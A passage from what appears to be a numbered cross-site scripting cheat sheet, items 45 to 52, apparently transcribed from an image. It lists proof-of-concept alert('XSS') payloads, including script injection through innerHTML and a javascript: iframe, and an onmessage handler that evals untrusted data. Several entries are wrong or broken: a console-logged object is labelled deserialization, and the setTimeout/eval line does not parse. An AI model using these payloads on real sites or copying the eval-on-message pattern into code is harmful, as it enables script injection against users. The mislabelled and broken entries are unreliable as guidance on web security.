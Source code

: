 SELECT * FROM users WHERE name = '<script>alert("XSS")</script>';


45. Leveraging HTML5 Features

Using the sandbox Attribute:

<iframe src="javascript:alert('XSS');" sandbox="allow-same-origin"></iframe>


46. Event Listeners

Adding Event Listeners Dynamically:

document.addEventListener('click', function() {
    alert('XSS');
});


47. Using Custom JavaScript Functions

Custom Function for XSS:

function executeXSS() {
    alert('XSS');
}
executeXSS();


48. Encapsulated Scripts

Using Template Literals:

const xss = `<script>alert('XSS')</script>`;
document.body.innerHTML += xss;


49. Exploiting Insecure Deserialization

Crafted Object Injection:

const payload = {
    __proto__: { alert: function() { alert('XSS'); } }
};
console.log(payload);


50. Advanced Event Manipulation

Using onmessage:

window.onmessage = function(event) {
    eval(event.data);
};


51. Combining Multiple Techniques

Combining setTimeout and eval:

setTimeout("eval('<script>alert(1)</script>')", 1000);


52. Using Fragments in URLs
